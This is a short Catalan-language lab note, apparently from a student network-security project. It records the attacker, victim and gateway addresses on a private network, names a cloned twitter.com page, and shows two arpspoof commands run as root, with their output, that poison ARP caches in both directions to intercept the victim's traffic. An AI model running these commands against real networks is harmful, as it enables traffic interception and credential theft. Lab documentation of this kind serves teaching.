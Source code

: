 IP Atacant. 10.200.243.137 
MAC Atacant: 08:00:27:16:51:52

IP Victima: 10.200.243.212
MAC Victima: 18:c0:4d:a0:8f:c8

IP Router Gateway: 10.200.243.1
MAC Router Gateway: 00:22:57:be:53:01

Pàgina clonada: http://www.twitter.com

SPOOF del tràfic entre la VÍCTIMA I EL ROUTER --> ES CANVIA LA MAC DEL CLIENT VICTIMA PER LA MEVA: 18:c0:4d:a0:8f:c8 PER LA MEVA (ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA TORNADA.
 
└─# arpspoof -i eth0 -t 10.200.243.212 10.200.243.1
8:0:27:16:51:52 18:c0:4d:a0:8f:c8 0806 42: arp reply 10.200.243.1 is-at 8:0:27:16:51:52

"Tot el fluxe que va del servidor a la víctima, redirigeix-los a la meva màquina"

TORNADA

SPOOF del tràfic entre la EL ROUTER I LA VICTIMA --> ES CANVIA LA MAC DEL DEL ROUTER PER LA MEVA: 0:22:57:be:53:1 PER LA MEVA (ATACANT): 08:00:27:16:51:52.

EN REALITAT QUI CONECTA AMB EL SERVIDOR, SOC JO NO LA VÍCTIMA. FEM LA TORNADA.

┌──(root㉿osboxes)-[/home/anonymous]
└─# arpspoof -i eth0 -t 10.200.243.1 10.200.243.212
8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52
8:0:27:16:51:52 0:22:57:be:53:1 0806 42: arp reply 10.200.243.212 is-at 8:0:27:16:51:52

"Tot el fluxe que va de la víctima al servidor, redirigeix-los a la meva màquina"


_RESUM: TOT EL TRÀFIC DE PAQUETS QUE SURT DE LA VÍCTIMA AL SERVIDOR, SERÀN "FORWARD" AL MEU CLIENT ATACANT. JA QUE EL LA VÍCTIMA CREU QUE QUI CONTACTA ES AL ROUTER, PERO NO. SUPLANTO LA MAC DESTÍ DEL ROUTER PER LA MEVA._

![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/New22.png?raw=true)
